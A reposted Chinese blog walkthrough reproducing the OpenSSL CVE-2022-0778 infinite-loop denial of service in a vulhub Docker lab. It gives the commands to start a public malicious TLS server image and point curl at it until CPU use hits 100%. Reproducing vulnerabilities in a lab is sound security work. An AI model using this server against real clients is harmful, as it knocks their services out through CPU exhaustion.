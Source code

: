 # 转载
：  OpenSSL无限循环DOS漏洞（CVE-2022-0778）vulhub漏洞复现

# OpenSSL无限循环DOS漏洞（CVE-2022-0778）vulhub漏洞复现

**OpenSSL无限循环DOS漏洞（CVE-2022-0778）OpenSSL无限循环DOS漏洞（CVE-2022-0778）**

OpenSSL是一个开放源代码的软件库包，应用程序可以使用这个包来进行安全通信，避免窃听，同时确认另一端连接者的身份。这个包广泛被应用在互联网的网页服务器上。

OpenSSL 1.1.1m 版本及以前存在一处逻辑缺陷，攻击者可以利用一个无效的椭圆曲线参数证书，触发一个无限循环导致耗尽目标CPU。由于证书解析发生在验证证书签名之前，任何解析外部提供的证书的进程都可能受到拒绝服务的攻击。

**漏洞复现**

`cd vulhub-master/`

`cd openssl`

`cd CVE-2022-0778/`

`docker-compose up -d`

**攻击准备**

使用vulhub提供的项目：[vulhub/cve-2022-0778 (github.com)](https://github.com/vulhub/cve-2022-0778)

搭建一个恶意服务器。

没有go环境的话，直接使用这个命令搭建：

```
docker run -it --rm -p 12345:12345 yywing/cve-2022-0778 --addr 0.0.0.0:12345

```

回到vulhub环境使用`docker compose exec curl top`查看内存占用

执行curl命令访问前面启动的恶意服务器

```
docker compose exec curl bash
curl -k https://host.docker.internal:12345

```

此时，curl会陷入死循环，查看`top`中的CPU占用即可发现已经100%
